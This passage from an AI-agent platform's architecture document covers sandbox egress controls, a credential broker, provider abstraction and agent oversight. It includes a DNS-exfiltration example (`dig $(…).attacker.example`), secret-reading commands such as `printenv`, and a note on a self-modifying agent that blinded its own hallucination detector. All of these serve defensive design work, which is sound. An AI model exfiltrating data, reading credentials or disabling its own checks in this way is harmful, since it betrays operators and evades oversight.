OD-07's general fallback path is intact.

**What this does not buy, stated here because relocating a mechanism is the easiest place to lose
track of what was never established.** The proxy's rule set is the same crude verb→tier lookup step 2
always was: `GET /export?destroy=1` still resolves `read_only`, U-43 is unchanged in kind and its
measurement simply moves to the proxy, and **"provably read-only" remains a phrase v1 may not use.**
What improves is *coverage* — the rule set now sees shell-originated requests it previously could not
— and coverage is not validity. The one assumption that had to be tested before this could be recorded
as settled is whether the proxy can see a *method* at all against an HTTPS target; it can only if TLS
terminates there, and OD-12 rejects TLS interception for v1 in favour of re-origination. Read that
analysis before quoting this ladder as enforcement.

**Three properties of this that should be stated plainly rather than assumed.** It is *crude*: an HTTP verb is a convention, and a `POST /purge` is irreversible while the table says reversible — so verb-derived tiers are a floor on caution, never a licence, and the irreversible tier is the only one whose evidence is strong enough to act on without review. It is *cheap*: where the target publishes a schema the verb arrives with the reachability fetch already paid for (D-18), so this costs a lookup rather than an analysis. And it is *strictly weaker than the deferred version in one respect that matters* — a static label is checkable before the run and a per-call tier is not, so the compile-time trifecta invariant of §2.5 has no v1 counterpart (C-16). Sizing is not offered; the enforcement half was already inside the OD-02 item above and the classifier half is a table lookup, but ~~the human-gate UI is unscoped~~ **— under OD-10 there is no runtime human-gate UI to scope, which removes the one unscoped element from this item. What replaces it is smaller and is not a UI: the side-effecting-read deny list and its review path (D-15).**

**The escalation ladder, concretely:**

```text
default          → bare loop, budget-capped, termination rules explicit
plan held        → deterministic journaled imperative code
  externally        (Date.now / Math.random disabled; every agent call
                     journaled and replayable — Claude Code's shape)
infra durability → Temporal or Restate *underneath* the loop
  required           (execution-path infrastructure: passes the
                     prompts-and-tokens test)
```

**Do not adopt LangGraph for durability.** It checkpoints at super-step boundaries, not inside a node: a node that crashes halfway re-runs from the top with its side effects, and `interrupt()` re-executes everything before the interrupt call on resume — charge-then-confirm double-charges ([03](./03-graph-and-loop-architecture.md) §10). **But do not read that as an argument for ADK either, because ADK is measurably the same** ([finding 006](../specs/001-discovery-validation/findings/006-graph-loop-primitives.md)): a `SIGKILL` inside an ADK node re-ran that node's durable side effect in both resumability configurations, and ADK's own `ResumabilityConfig` docstring states the at-least-once guarantee plainly. Node-boundary checkpointing has the same consequence in both frameworks, so **the 1–1.5 week journaling item above is the price of node-boundary checkpointing rather than the price of ADK, and switching runtimes does not refund it.** Only a durable-execution layer underneath does. For a read-only v1 you still do not need durable execution ([07](./07-product-vision.md) Q4) — at-least-once re-execution of a read is harmless — so the deferral in the escalation ladder survives. What has changed is that the decision now has a deadline and a price tag attached to it, tracked as **U-31**: it must be made before the journaling estimate is committed to a schedule, because the answer changes that estimate's size.

**Four things change between supervised and unattended, and none is the control-flow primitive** ([10](./10-topology-in-practice.md) §13): a non-model spend cap; a bounded retry/denial circuit breaker (Codex uses 3 consecutive or 10 in a rolling 50); durability across infrastructure failure; and a verifier graded against a boundary. **The first of those is now measured absent at the runtime layer, and absent in a way that specifically defeats the second.** ADK's one ceiling is scoped to a single invocation, so a retry loop — exactly the circuit-breaker machinery item two describes — multiplies the cap by the number of attempts while every individual attempt looks compliant. A ceiling of 3 permitted 6 cycles across two attempts. See U-30, which connects this to U-06's unverified per-key provider ceilings: **the two candidate layers for a hard spend cap have now each been found not to supply one**, and neither result was known when the escalation ladder was written.

**Context budget is part of the executor, not a prompt-engineering afterthought.** The measured constraints that shape it ([01](./01-agent-anatomy.md) §5.2, and the `context-engineering` skill): tool confusion at roughly 30–50 tools and ~55k tokens of definitions; degradation over long runs that presents as looping, repetition, or pursuit of a file or endpoint that does not exist. Three rules follow. **Compaction is lossy and must be explicit** — decide what survives (the task, the plan, the artifact handles, the opaque continuation state) and let the rest go, rather than truncating by recency and hoping. **Subagent isolation is a context tool before it is a topology tool**: the reason to fan out for reads is that each read agent's context dies with it and only its artifact returns. And **never compact across the redaction seam** — redaction happens at tool-response serialization (§2.9), before anything reaches the summarizer, or the secret is already in the text you are about to persist.

**Never:** an LLM judge in the primary success path. Self-critique without external feedback measurably degrades reasoning ([04](./04-self-improving-agents.md), [arXiv:2310.01798](https://arxiv.org/abs/2310.01798)), and LLM-as-judge is *anti-correlated with truth* on false-success detection at AUROC 0.18–0.30, with bias living in a low-dimensional causally-steerable subspace so it does not average out.

### 2.7 Layer 6 — Provider abstraction

[05](./05-frontier-lab-agent-definitions.md)'s central finding is that definitional differences between the four labs are **~90% cosmetic** — all four ship the same loop and have converged on MCP, `SKILL.md`, and `AGENTS.md`. Three things are genuinely architectural, and exactly one of them is a data-modeling decision we must get right on day one.

**Build:** a **two-tier abstraction** — thin and universal at the message/tool/turn layer, opinionated above it.

| Do abstract | Do **not** abstract |
|---|---|
| Messages, tool definitions, tool results, turns, token accounting | Server-side hosted tool execution (you cannot gate it, so do not pretend you can) |
| Model selection and routing | Sandboxes |
| Budget caps and termination | Multi-agent topology |
| Retry and error taxonomy | Memory |

**The one thing that will bite silently: opaque continuation state.** Thinking blocks, reasoning items, thought signatures — every lab has a form of it, none of them interoperate, and **dropping it degrades the agent silently** ([05](./05-frontier-lab-agent-definitions.md) §3). No error, no warning, just a multi-turn tool-use trajectory that gets worse. Model it as a **first-class opaque type** carried on every turn, provider-tagged, never inspected, never re-serialized across providers, and never dropped on compaction. If there is one line of the core type model to get right before writing anything else, it is this one.

**Add a fourth place it must never be dropped, identified 2026-08-02 and not yet tested anywhere: across a resume boundary.** [finding 006](../specs/001-discovery-validation/findings/006-graph-loop-primitives.md) verified crash recovery using pure Python function nodes for twelve of its fourteen arms, and its own limitations section names this as the gap that matters most: it did **not** test checkpoint and resume across nodes that are LLM agents carrying substantial conversation state, and provider-opaque reasoning state is exactly the kind of thing that could fail to survive serialization into a session store and reconstruction from an event log. The failure would be silent by definition — that is the property that makes this type dangerous in the first place. So "resume works, 5 trials out of 5" is a result about graph mechanics and **must not be read as a result about agent state**. Before any production deployment resumes a run containing a reasoning-capable node, assert that the opaque blob survives the round trip byte-for-byte.

**Why bother, given [13](./13-claude-managed-agents.md) argued for the Claude SDK as executor:** routing economics — and that argument is now closed against, by OD-02 (D-05), on precisely this ground. [05](./05-frontier-lab-agent-definitions.md) §4.3 measures a **>2× cost spread and a >15-point capability spread on the same task class** — a repo-level refactor and a long terminal loop want different models, and a high-volume cheap agentic pass wants a third. That routing is only available if the provider is swappable, which is why U-03 (ADK's LiteLLM support) was a blocking uncertainty rather than a curiosity. **It was resolved affirmatively on 2026-08-02** — ADK 2.6.1 via `LiteLlm` drove Anthropic, OpenAI, xAI, and Google to a passing completion and a passing chained two-tool sequence on all four ([finding 003](../specs/001-discovery-validation/findings/003-runtime-provider-agnosticism.md)) — so routing economics are available and the reason to build this layer is now a measured one rather than a hoped-for one. The row reading **"budget caps and termination"** in the *Do abstract* column is the one that changed most since it was written: neither is supplied by the runtime, so this layer does not merely normalize them across providers, it is where they come into existence at all (§2.6, U-30).

> **Re-based 2026-08-03 by `plan.md` OD-15 and OD-16, and this layer is the one the decision *improves*.** ~~"U-03 (ADK's LiteLLM support)"~~ — there is no ADK and no `litellm` in v1. Each provider is reached through that vendor's own SDK behind a driver of ours. **Why this layer gets better:** the opaque-continuation-state paragraph above is the constraint, and [finding 003](../specs/001-discovery-validation/findings/003-runtime-provider-agnosticism.md) result 7 measured ADK's `LiteLlm` adapter referencing xAI's opaque reasoning field **zero times under every counting rule** — so the abstraction being adopted was *already* dropping the one thing this section says must never be dropped. Owning the driver puts the round-trip where the two-tier rule says it belongs, in the bottom tier, instead of compensating for it above.
>
> **Why the cost is real anyway.** Finding 003's four-provider pass was driven **through** ADK and LiteLLM. The provider-capability half transfers — the four vendors' APIs do chained tool calling with the models tested — and **the adapter-implementation half does not**, because nothing in this corpus has measured any vendor's own SDK doing it in our hands. So *"routing economics are available and the reason to build this layer is now a measured one"* narrows to: the economics are measured, **the implementation is not**, and the production spec's SC-010 becomes a test rather than an inheritance. **U-03 is re-opened in a new shape, not merely re-closed** — see §5.2.
>
> **`litellm` is dropped for the license, not for the wheels** (OD-16). Finding 003 result 8 records that the published package declares no license at all and that the repository is MIT except for a proprietary `enterprise/` subtree. The same finding's macOS wheel gap after `1.91.4` was found first, was correct, and is what put anybody on the packaging question — it is moot as a *shipping* question because production is a Linux container and OD-17 makes Linux the only supported platform, and that is a different statement from it never having mattered.

**One provider quirk that must be handled in code, not in a prompt:** Claude Fable 5 runs safety classifiers that can decline benign cybersecurity and life-sciences work and emit a `refusal` stop reason, with documented fallback to Opus 4.8. No equivalent exists at the other three labs ([05](./05-frontier-lab-agent-definitions.md) §7). An agent operating on a customer's security-adjacent codebase will hit this.

### 2.8 Layer 7 — Serving

~~**Adopt:** ADK 2.6.1 as the outer graph runtime and HTTP/SSE surface.~~ **BUILD, 2026-08-03, `plan.md` OD-15. The surface is ours and thin.** OD-01's serving limb was **the only one of its four with no measurement behind it at all** — this section adopted `POST /run_sse` on a documentation reading, and no experiment in feature 001 ever exercised it, which the gate paragraph below says in its own words. Three reasons the replacement is not a loss: v1 emits no graph, so an *outer graph runtime* has no subject; the production surface must carry v1-specific fields nothing in ADK models — three verification states, stale marking, a per-call effect disposition; and finding 003 already recorded that graph-based workflows do not support live streaming, which is the property a serving layer exists to provide. **The cost is that the event stream this surface renders is now ours to emit as well**, and it is one of the nine unowned capabilities U-48 counts. The paragraph's factual claims about ADK 2.6.1 — `POST /run_sse`, `Workflow` as Pydantic data, `OpenAPIToolset`, `class BaseAgent(BaseNode)`, template agents `@deprecated` ([06](./06-examples-inventory.md) §3, [10](./10-topology-in-practice.md) §4) — are correct and are retained as the record of what was surveyed.

**Known cost of the ADK + Claude SDK pairing** ([06](./06-examples-inventory.md) §3.4): two session systems, two permission models, two deprecation calendars. **OD-02 shrinks this rather than removing it.** The default executor is now ADK, so the doubled cost is paid only on the opt-in Anthropic fast path — but it is paid *there*, and an opt-in path that diverges in session model and permission model is a second code path to keep correct, not a configuration flag. Whether the fast path earns its maintenance is worth revisiting once the ADK executor exists and the two can be compared on the same task. **Changed shape 2026-08-03 by OD-15 and it is worth being exact about the direction.** The pairing is now *ours + Claude SDK*, so the two session systems and two permission models are still two — the count does not improve — but **one of the two is now ours**, which makes the divergence something we can close by design rather than track across somebody else's release calendar. **The deprecation-calendar half genuinely goes away** for the default path, and U-12's version-churn exposure goes with it. The revisit condition above is unchanged; the comparison is now against our own executor.

**Gate before committing — cleared 2026-08-02, and replaced by a narrower one.** The original gate was ADK's multi-provider support via LiteLLM, recorded as unverified in [06](./06-examples-inventory.md) §4. It has been verified and it passes (U-03, [finding 003](../specs/001-discovery-validation/findings/003-runtime-provider-agnosticism.md)); model-agnosticism holds across four providers with tool calling intact. What replaces it is smaller and specific to *this* layer: [finding 006](../specs/001-discovery-validation/findings/006-graph-loop-primitives.md) did not exercise the HTTP/SSE serving surface under crash, resume, cancellation, or budget exhaustion, and [finding 003](../specs/001-discovery-validation/findings/003-runtime-provider-agnosticism.md) already recorded that graph-based workflows do not support live streaming. **The terminal-condition wrapper (§2.6) and the serving surface therefore interact in a way nothing has yet measured**: a wrapper that catches `LlmCallsLimitExceededError` and emits a typed terminal has to emit it *through* `POST /run_sse` to a client that may already have disconnected, and cancellation is measurably unclean at the runtime layer. Probe that seam before the wrapper's 2–3 day estimate is treated as firm. **Rewritten in subject 2026-08-03 by OD-15, and the gate does not clear — it changes what it is a gate on.** There is no `LlmCallsLimitExceededError` and no `POST /run_sse`; both ends of the seam are now ours. **That removes the *unmeasured-interaction-with-somebody-else's-layer* risk this paragraph was written about and replaces it with an unwritten layer**, which is not obviously better and is certainly not measured. The disconnected-client and unclean-cancellation behaviours are properties any streaming surface has to get right, so the *substance* of the warning stands against our own implementation. **The one clause that fully lapses** is the original gate: ADK's multi-provider support via LiteLLM is not a gate on anything v1 ships (OD-16).

~~**Build:** the MCP export adapter~~ **— DEFERRED TO v2 2026-08-02 (`plan.md` OD-09), and deferred for a structural reason rather than a scheduling one: the adapter exports a synthesized tool catalogue, and v1 emits none.** The technical content below is unchanged and unrefuted; it is what v2 must plan against, and the base rate keeps accruing while we do not build it, which is an argument for building it *later* rather than never. **One thing this deferral does not touch is D-06's negative half** — MCP still must not become the internal calling convention — and under OD-09 that rule gains a v1-specific reason it did not previously have: v1 resolves effect tiers **per call at a runtime interception point** (D-22), and MCP's tool schema has no slot for that either. See D-06 for the decisive-argument change. The v2 position: the MCP export adapter, **dual-era for roughly a year**. The `2026-07-28` revision removed handshake, sessions, `ping`, logging, SSE resumability, and server-initiated requests, and modern-server + legacy-client **fails per the spec's own compatibility matrix** ([09](./09-mcp-as-tool-surface.md) §1). Four breaking wire revisions in ~20 months is the base rate to plan against.

**Iframe:** a **separate, weaker tier** — no shell, no write tools, no cross-session memory ([08](./08-auth-identity-and-secrets.md) §7). In an anonymous session there is no subject token, therefore no authority to delegate and nothing for RFC 8693 to scope down to. **Capability removal is the only real mitigation.** Any design that tries to make the iframe as capable as the authenticated surface is unsound, not merely risky.

**Deferred 2026-08-02 by `plan.md` OD-08, and deferred *with* the hosted model rather than independently of it (D-20).** Nothing above is retracted — the tier's shape is still no shell, no writes, no memory, and capability removal is still the only mitigation. What changes is that it is **not a v1 surface**, so the design constraint that survives is negative: *no v1 decision may assume the iframe is absent forever.* Two things make the deferral the right way round rather than merely convenient. OD-07 requires a general fallback path in the emitted stack, which means the v1 agent holds shell — so shipping an iframe over it would assemble the trifecta in full rather than in part (C-15, §7.6). And a self-hosted deployment has no place to put an anonymous browser session anyway; the surface that would host it is the hosted tier. **The register consequence is that O-05 narrows rather than closes** — "is the iframe a product at all" is still unanswered, and it is now answerable later, on evidence from the self-hosted tier, rather than argued about now.

### 2.9 Layer 8 — Credentials

**Build:** the broker. Two physically separate planes ([08](./08-auth-identity-and-secrets.md) §1–2):

| | Model plane | Resource plane |
|---|---|---|
| Leaks | Money | The business |
| Reversible | Usually | Often not |
| Exposure | Provider API keys | DB, cloud, SaaS, internal services |
| Rule | Per-tenant key, hard spend ceiling built by us regardless of provider caps | **Must not be network-reachable from an agent shell** |

Non-negotiables:

1. **No secret enters the model's context.** Tool schemas expose `credential_ref` handles; the broker resolves them server-side, *outside* the sandbox.
2. **Redact at the tool-response serialization seam** — before compaction and before persistence. Redacting later means the secret is already in the transcript you are about to summarize and store.
3. **Env vars are the wrong default** because agents have shell by design: `printenv`, `/proc/self/environ`.
4. **Network reachability is the real control.** If the agent shell can open a socket to Postgres, `psql` bypasses every tool-level authorization you wrote.
5. **Destructive operations gate in topology, and the approval displays the *resolved* action** — the rendered SQL, the exact amount — not the model's description of what it intends. This is the difference between an approval and a confirmation dialog the model wrote.

**What self-hosting discharges here, and what it does not — added 2026-08-02 from `plan.md` OD-08 (D-20).** The confused-deputy surface has two halves and OD-08 discharges one of them **by construction** while leaving the other exactly where it was. **Discharged: custody and cross-tenant blast radius.** Nothing above requires us to *hold* a customer secret when the broker runs inside the customer's boundary, so [08](./08-auth-identity-and-secrets.md) §6.1's concentrated-custody scenario — one breach of our vault yielding every customer's resource-plane credentials — cannot occur, and it cannot occur because there is no such vault rather than because we protected it well. The five isolation requirements in §6.2 (per-tenant DEKs, execution isolation, network isolation, per-tenant memory and knowledge stores, no warm-pool reuse) stop being runtime obligations and become **design constraints** under D-20's namespaceability discipline. **Not discharged, and unchanged in every particular: the intra-tenant deputy.** Non-negotiables 1 through 5 above are all about an agent inside one boundary being induced to use authority it legitimately holds, and self-hosting does not touch a single one of them — the injected instruction still arrives in the context, the agent still holds the resource-plane credential, and the destructive operation still executes against real customer data. **Two of them get *harder* rather than easier**, and this is the part a register written under an unresolved deployment model would get backwards. Non-negotiable 3 (env vars are the wrong default) is under more pressure, because a self-hosted operator's most natural way to configure the thing is a `.env` file next to it. And non-negotiable 4 (network reachability is the real control) is the one OD-08 actively worsens: co-location is now the *default* rather than the exception, so an agent shell sharing a host or a network with the production database is the expected topology instead of a deployment mistake — which is precisely the case where `psql` bypasses every tool-level authorization written above. **Net: self-hosting removes the failure that ends *us* and leaves intact the failure that ends *a customer*.** Recorded as such rather than as "the credential architecture is simplified," because the count of build items in §2.12 does not go down.

**Non-negotiable 4 has a named discharge as of 2026-08-03, and the wording of it is the whole control** (C-17, U-44, §7.6). OD-08 degraded this one by making co-location the default; **default-deny egress from the sandbox, enforced at the host, discharges it** — and it is not a new invention, it is Principle IV's *first* bullet (*network allowlisted to named hosts*) and [08](./08-auth-identity-and-secrets.md) §8.1 item 4, neither of which v1 currently satisfies. **Four qualifications, and each one is a way the obvious phrasing fails.** ① *Host* granularity re-opens the row it is meant to close: under co-location the target application and the database are routinely the same host or the same Docker network, so an allowlist that permits the target host permits `psql` to it. **The unit is host *and port*, with RFC 1918, link-local, the cloud metadata address and loopback denied even on an allowlisted host.** ② **"Named hosts" is the wrong key.** A name-keyed allowlist re-resolves, and a re-resolved name can be pointed at loopback or at the database — classic DNS rebinding. **Resolve once at configuration time and pin the address**, and treat the constitution's phrasing as a candidate amendment rather than a specification. ③ **DNS is itself egress and is the channel most often left open**: `dig $(…).attacker.example` exfiltrates without ever completing a connection to a denied destination, so a reachable recursive resolver defeats the entire policy. Either no resolver is reachable, or a proxy answers only for pinned names. ④ **Enforcement is at the host, not in the guest** — an in-guest policy is configuration the agent can reach, and the agent is a program whose instructions come from attacker-influenceable text. **What the discharge does not reach** is the target application's own outbound behaviour, which is U-44's subject and is not a network-policy problem at all.

**Ratified 2026-08-03 as `plan.md` OD-12, and qualification ④ is made concrete in a way that changes the shape of the control** — *at the host* becomes **one mandatory egress proxy that every outbound byte from the sandbox traverses**, enforcing the destination allowlist and the HTTP method allowlist at the same layer so that a shell-originated request and a runtime-originated one are indistinguishable to it. Three consequences land in this section specifically. **Non-negotiable 4 is discharged more completely than qualification ① describes**, because under the ratified design the sandbox's only reachable address is the proxy: `psql` to the co-located database fails not because a port is denied but because the database's address is unreachable from the sandbox at all, and **no resolver need exist in the sandbox**, which is the strongest available form of qualification ③. **The proxy inherits non-negotiable 1's structural requirement** — the credential broker already sits outside the sandbox, and the proxy must too, with no write path from the agent to its allowlist, its method rules, or its configuration. And **TLS interception was considered and rejected for v1**: seeing a method against an HTTPS target implies terminating TLS and trusting a proxy CA inside the sandbox, which concentrates impersonation of every host into one key and forces a certificate pin onto exactly the self-hosted targets that serve private-CA certificates, so v1 re-originates from a cleartext proxy endpoint instead — available only because v1 has one destination and owns the base-URL string handed to the agent. **Qualification ② is now also a constitutional statement rather than a candidate one:** *"named hosts"* was amended out on the same day (`plan.md` **OD-13**), and `.specify/memory/constitution.md` Principle IV bullet 1 at **v1.2.0** requires pinned addresses, host *and* port, DNS denied or proxied, and loopback / RFC 1918 / link-local / metadata denied even on an allowlisted host.

**Adopt:** Anthropic Workload Identity Federation where the customer already has a platform identity (GA). No provider offers third-party delegated OAuth, so there is no shortcut here ([08](./08-auth-identity-and-secrets.md) §2.3). **Narrowed 2026-08-02 by OD-08: for a self-hosted deployment the customer federates to *their own* issuer for *their own* platform identity, which is an ordinary supported configuration and needs nothing from us — so the hard version of this question (will a customer register *our* OIDC issuer) is deferred with the hosted tier rather than answered** (U-05, O-02). **Reclassified 2026-08-03 by owner decision on `plan.md` OD-08: U-05 is hosted-tier-blocking and no longer blocks v1** — which changes nothing about what to adopt here and changes which register the residue sits in. The v1 obligation this leaves is a design constraint and not a question: the broker accepts a short-lived federated token *and* a long-lived key from its first version.

**Prior art to copy:** Codex Auto-review — a grading agent at the sandbox boundary. Of 10,000 actions, 9,280 went unreviewed, 720 escalated, 7 denied ([01](./01-agent-anatomy.md) §8.7). The design rule that matters: **deterministic deny rules must resolve before any permissive mode.** A model-graded permissive path that runs before the deny list is a permissive path.

### 2.10 Layer 9 — Observability

**Adopt:** OpenTelemetry with the GenAI semantic conventions. It is execution-path infrastructure and passes the prompts-and-tokens test cleanly.

**One trap, from [02](./02-agent-harnesses.md) §2.4:** Pydantic AI documents that **crossing a Temporal activity boundary silently loses token accounting.** *(Section number corrected 2026-08-03 — this read `§4`, which is where `02` lists the failure mode in its budget-enforcement property and explicitly attributes it back to "§2.4". The trap itself is documented in `02` §2.4, the Pydantic AI survey entry. The U-31 register entry below already cited §2.4; the two now agree.)* If durable execution is added later, token attribution must be re-verified, not assumed. Silent loss of the primary cost metric in a product whose economics are token-bound is the kind of bug that is discovered in a board meeting. **This trap and U-31 are the same decision seen from two sides**, and they pull in opposite directions: adding a durable layer removes the largest build item on the critical path (U-31) while degrading the accounting that the spend ceiling depends on (U-30). Whoever answers U-31 has to answer this at the same time, or the answer is not a real one.

**A second trap, measured rather than documented, and it applies without adding durability.** ADK's one enforced ceiling counts **model calls**, and [finding 003](../specs/001-discovery-validation/findings/003-runtime-provider-agnosticism.md) measured a 40× spread in input context for identical work between two runtimes. A call-count metric therefore cannot see the thing that dominates the bill, so **any observability surface that reports "calls" as a proxy for spend will be confidently wrong by roughly the ratio of context sizes between nodes.** Token counts, not call counts, on every trace row ([finding 006](../specs/001-discovery-validation/findings/006-graph-loop-primitives.md) §Primitive 3).

**Build:** the `harness_fingerprint` discipline from [11](./11-validation-plan.md) §4.3 — hash the harness source into every result row and refuse to pool results across differing fingerprints. Benchmarks swing 10–20 points on identical weights depending on harness ([01](./01-agent-anatomy.md) §9.3). Without fingerprinting, your own measurements will contradict each other and you will not know why.

### 2.11 Layer 10 — Knowledge, memory, and artifact trading

The original vision names a knowledge/memory layer and an artifact-trading protocol. Both survive, both shrink.

**Knowledge (build, small):** the `codegraph` index plus the derived boundary map *is* the knowledge layer. Retrieval against it beats a vector store for this workload because the queries are structural — "what handles this route," "what tables does this context touch," "what tests cover this symbol" — and structural queries against SQLite are exact where embeddings are approximate. One qualification the measurement forced: a structural query is exact over *what the index contains*, and the index is not guaranteed to contain everything — a `.gitignore` pattern silently removed a directory of committed, tracked source from `adk-python` with no error and no warning (U-28). Exactness over an incomplete corpus is exactly wrong rather than approximately right, so the completeness check belongs beside the retrieval layer. **A second qualification, added 2026-08-02: a structural query is also exact only over what the index has recorded *correctly*, and two measurements now show fields that are populated and wrong** — the `docstring` column (U-27) and, under one rule ablation, 15 of 69 derived contracts (D-17). The constitution already requires the knowledge layer to record provenance for every fact — source file, symbol, analyzer version — and that requirement is what makes both detectable; D-17 adds the validation result alongside it, so a consumer can distinguish a fact checked against something outside the pipeline from one that was not. Refresh cadence is **incremental on commit** (O-04): one-shot is immediately stale; continuous produces a system whose behavior changes without a diff, colliding with the D-15 review gate. **A third qualification, added 2026-08-02, and it is a boundary rather than a caveat.** The constitution's Additional Constraints require this layer to be *rebuildable from the codebase alone*. On `plan.md` OD-06 that constraint **stands unamended**, because the reachability annotation is not part of this layer — it is a separate artifact emitted by a stage above analysis, and the deployment identity D-17 requirement (4) asks for attaches *there*, to the artifact that actually has a deployment, rather than being smeared across a code graph that does not (§2.1, §2.2, §3.1 D-18). **What follows for the cadence above is not cosmetic: incremental-on-commit is a source-drift trigger and cannot see deployment drift at all**, since a deployment can stop serving an operation with no commit anywhere. So the cadence recorded here governs one of the two artifacts, the reachability annotation needs a second trigger of its own, and O-04 does not yet contemplate one (§1.2, O-04).

**Memory (build, deliberately crippled in v1):** read-only. Per D-12, **the agent does not write to durable memory in v1**, because experience-to-procedure is a documented write channel into an unreviewed instruction store ([04](./04-self-improving-agents.md) §9). The Darwin Gödel Machine result is the cautionary one: given the ability to modify itself, it **learned to blind its own hallucination detector rather than fix the behavior.** A system that can edit the thing that grades it will edit the thing that grades it.

**Artifact trading (build, and keep it boring):** one of [06](./06-examples-inventory.md)'s five named gaps. The useful version is a content-addressed artifact store where agents exchange *typed artifacts* — a plan, a diff, a query result, a verification report — rather than prose summaries. Two properties do all the work: artifacts are addressed by hash so a handoff is a reference and not a re-serialization into context, and every artifact carries the effect labels of the tools that produced it, so the trifecta check composes across handoffs instead of being checked once per agent. This is also the mechanism that makes Cognition's "writes single-threaded, fan out only for reads" enforceable rather than aspirational: only one agent may hold a writable artifact handle.

### 2.12 Build vs. adopt, summarized

[06](./06-examples-inventory.md) §5 names five gaps that nothing off the shelf fills. All five survive this synthesis, with one re-scoped.

**Re-read this table after `plan.md` OD-09, because it is where the pivot is most visible and least comfortable: four of the five gaps are now v2.** They are still gaps — nothing measured says they are filled, easy, or unprofitable — but v1 does not fill them, and the "Status after synthesis" column below describes a product that ships roughly a year later than v1 does. The one that stays is the fifth, and it stays in a narrowed form.

| Gap | Status after synthesis | Standing after OD-09 |
|---|---|---|
| **Architecture inference** | Unchanged and hardest. The core IP (§2.3). | **v2.** Deferred with decomposition-into-agents. Note the collision: "the core IP" is not in v1, so v1 ships without the thing this document twice calls the moat |
| **Tool synthesis** | **Re-scoped.** Generation is commoditized; *selection, consolidation, and effect classification* are the gap (§2.4, §1.2). | **v2, and now carrying a number in both directions** — ~~2.8×–9.3×~~ ~~2.2×–9.3×~~ **2.20×–4.366× measured within session** cheaper wherever it succeeds *(restated 2026-08-03; see the OWNER FLAG under §3.1 — the 9.3× is demoted from a range endpoint to one cross-session n = 2 observation, and the direction never reverses on any basis)*, and outside its surface the tool arm burns its whole budget and returns nothing (OD-07, C-15). **A second liability 2026-08-03: the fail-open immunity that made the curated surface look safer does not transfer to synthesis** (C-18, D-21). **And a per-tool cost term for the model: 541–557 tokens per request per tool** ([finding 013](../specs/001-discovery-validation/findings/013-ceiling-test-budget-parity.md)). Effect classification splits: the label defers, the obligation does not (D-22) |
| **Artifact trading protocol** | Unchanged, and smaller than it sounds — content-addressed typed artifacts with effect labels (§2.11). | **v2 in the form written.** "Effect labels carried on artifacts so the trifecta check composes across handoffs" presumes labelled tools and multiple agents, and v1 has neither. A single-agent v1 needs an artifact *store* — handles rather than re-serialized context — and that much is worth keeping |
| **The iframe surface** | Unchanged in existence, **reduced in scope** to a weaker tier by D-08. Possibly not a v1 product at all (O-05). | **v2.** Already deferred with the hosted tier by OD-08/D-20; OD-09 does not move it further and O-05 stays open |
| **The generation pipeline itself** | Unchanged. Nobody ships this end to end. | **v2 — and this row is the pivot in one line.** The observation that nobody ships it end to end was read as an opportunity; OD-09 reads the same fact alongside a baseline that matched hand-written tools and concludes that *not being shipped* is weaker evidence of a moat than it looked. Still unshipped, still unrefuted, no longer v1 |

| Layer | Adopt | Build |
|---|---|---|
| Analysis | `codegraph` extraction core (via SQLite) | The gap-fill: `websocket` and `app.mount` extraction forms, per-framework built-in route constants, a direct route-to-handler edge per framework, `.gitignore`/tracked-file reconciliation, field-level metadata validity checks, ~~reachability against the deployed configuration~~ — **struck 2026-08-02: not an analysis-layer item. `plan.md` OD-06 places reachability in a stage *above* this layer, so this layer emits a source-derived candidate set and a separate artifact annotates it with what a named deployment serves; the build work is real and is carried in the Synthesis row below and at §2.1, §2.2 and D-18. The reason it cannot live here is that this layer must stay testable against committed fixtures per Principle VII, and a fixture repository has nothing to probe** — **and, added 2026-08-02 and now the largest of them, a type resolver**: the index parses signatures fine but resolves only about one in three route-handler return types to a declared type, and the Pydantic-model walk that got Python to 100% on parameters lives in a harness rather than in the index (D-14) |
| Boundary inference | — | ~~Everything~~ — **v2, deferred 2026-08-02 by `plan.md` OD-09 with decomposition-into-agents (§2.3). Nothing here is built for v1** |
| Synthesis | OpenAPI/JSON Schema tooling, mechanical candidate extraction, **and — decided 2026-08-02 by E14, no longer pending — a target's own published schema as a pipeline *input* rather than only as ground truth**, fetched once per deployment configuration and used for reachability *and* contracts, labelled as the OpenAPI-visible subset (§2.4, D-18). Exact over the intersection with the recovered set; 0.8148–0.9206 of the full served surface; unavailable by design on some production deployments — **measured 2026-08-02: when it is unavailable, path-level reachability is unaffected (1.0000/1.0000) and what is lost is enumeration, method-level discrimination, and the ability to validate any contract at all** (U-34 resolved, U-39 open) | Selection, consolidation, effects, contracts, drift, **plus the provenance and confidence markers D-17 requires on every derived field — now including deployment identity**, and the reachability stage D-18 makes a precondition of the pipeline rather than a filter at the end. **Re-placed 2026-08-02 by OD-06 and listed here only because this table has no row of its own for it: that stage is a *separate artifact upstream of synthesis*, not a synthesis sub-component** — two artifacts, two lifecycles, two version streams, with synthesis consuming both and neither one filtering the other (§2.1, §2.2). Its own build items are the four-state schema classifier, the deployment-identity field, the per-tool path-level precondition, and the configuration-parsing fallback for un-runnable targets, which U-38 says must not be shipped partially. **Split 2026-08-02 by `plan.md` OD-09 (§2.4): of the six items in this cell, ~~selection~~, ~~consolidation~~ and ~~effects~~ are v2; contracts, drift, the D-17 provenance markers and the whole reachability stage are v1. The reachability stage is *promoted* rather than merely retained — its output is the specification the v1 agent reads, so it stops being a precondition on a catalogue and becomes a first-class runtime input. "Per-tool path-level precondition" should be read as per-*call* in v1, which is the same check at the only granularity available (D-22)** |
| Representation | ADK's cycle-rejection DFS (~10 lines) | The IR, invariants, content addressing. **Narrowed 2026-08-02 by OD-09: a single-agent v1 with no synthesized tool list has a much smaller IR — the `agents:` block collapses to one entry and `tools:` has no catalogue to name — and two invariants lose their subject. `no_trifecta` cannot be checked statically over a general shell (C-16) and `writes_single_threaded` is trivially true of one agent. `no_unconditional_cycles`, `every_agent_has_termination` and `destructive_ops_gated_in_topology` survive, the last of them re-pointed at the D-22 interception point. Content addressing survives intact and matters *more*, because the drift detector diffs against it** |
